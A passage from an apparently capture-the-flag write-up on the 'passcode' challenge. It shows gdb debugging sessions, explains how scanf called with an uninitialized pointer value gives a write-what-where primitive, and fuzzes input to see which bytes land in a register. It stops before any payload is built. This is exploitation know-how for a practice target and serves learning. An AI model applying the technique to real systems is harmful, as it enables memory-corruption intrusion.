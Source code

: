 ```bash
Program received signal SIGSEGV, Segmentation fault.
0xf75d2357 in _IO_vfscanf () from /lib32/libc.so.6
(gdb) 
```
Now we know that the `SIGSEGV` is happening in the `scanf`! But why? But how? Let's try to dive a little deeper into this. Let's see what happens when we put 100 A's into the program.

```bash
(gdb) b *0x08048586
Breakpoint 1 at 0x8048586
(gdb) b *0x0804858b
Breakpoint 2 at 0x804858b
(gdb) run < /tmp/input.txt
Starting program: /home/passcode/passcode < /tmp/input.txt
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!

Breakpoint 1, 0x08048586 in login ()
(gdb) c
Continuing.

Breakpoint 2, 0x0804858b in login ()
(gdb) 
```

We hit the second breakpoint. Whatever we did, it had some sort of effect on the outcome, maybe there is something more to this.

Upon closer inspection of the source code, you can see that `scanf` is called directly with the value of `passcode1`, not it's pointer. This presents a write-what-where vulnerability. We can write anything to anywhere so long as we can overwrite the value of `passcode1` before the `scanf`. 

Let's try fuzzing information into the program and see if we can see it show up.

```bash
passcode@ubuntu:~$ ruby -e "100.times { |x| print (x+60).chr}; print ?\x0a" > /tmp/input.txt
passcode@ubuntu:~$ gdb passcode
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.04) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from passcode...(no debugging symbols found)...done.
(gdb) b *0x08048586
Breakpoint 1 at 0x8048586
(gdb) run < /tmp/input.txt
Starting program: /home/passcode/passcode < /tmp/input.txt
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome <=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~��������������������������������!

Breakpoint 1, 0x08048586 in login ()
(gdb) info registers
eax            0x8048783	134514563
ecx            0x0	0
edx            0x9f9e9d9c	-1616994916
```